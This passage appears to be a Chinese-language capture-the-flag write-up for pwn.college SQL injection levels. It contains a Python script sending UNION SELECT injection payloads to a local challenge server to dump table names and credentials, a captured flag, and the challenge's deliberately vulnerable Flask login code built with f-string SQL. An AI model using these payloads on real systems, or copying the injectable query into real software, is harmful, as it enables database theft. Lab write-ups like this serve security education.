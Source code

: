利用代码:
```python

query = "flag \"  UNION SELECT name FROM sqlite_master WHERE type='table' AND name NOT LIKE 'sqlite_%' --"
response = requests.get('http://challenge.localhost:80/', params={"query": query})
print(response.text)

query = "flag \"  UNION SELECT username || ' - ' || password FROM 'table6301237404136328429' WHERE '1'='1'-- \""
response = requests.get('http://challenge.localhost:80/', params={"query": query})
print(response.text)

# table6301237404136328429

# flag - pwn.college{8SaDDkYZvBuqJQ_N-4fk3MgZPfE.dJTOzMDL0czNxEzW}
```

## level7 

应该不是正确的解法，感觉正确的解法里面，我是看不到服务器端错误回显的。但是在浏览器中访问的时候，发现也能获取到错误回显。就先这样把。

理论上来讲，我应该把username字段更新为username-password的拼接字符串，这样会用到update语句，这样会变成同时运行select和update语句，而sqlite不允许这样。

我选择把`username-password`拼接以后的字段作为rowid，这样的话，flag会在报错中回显。

源码:

```python

def level7():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

    if session.get("user"):
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```
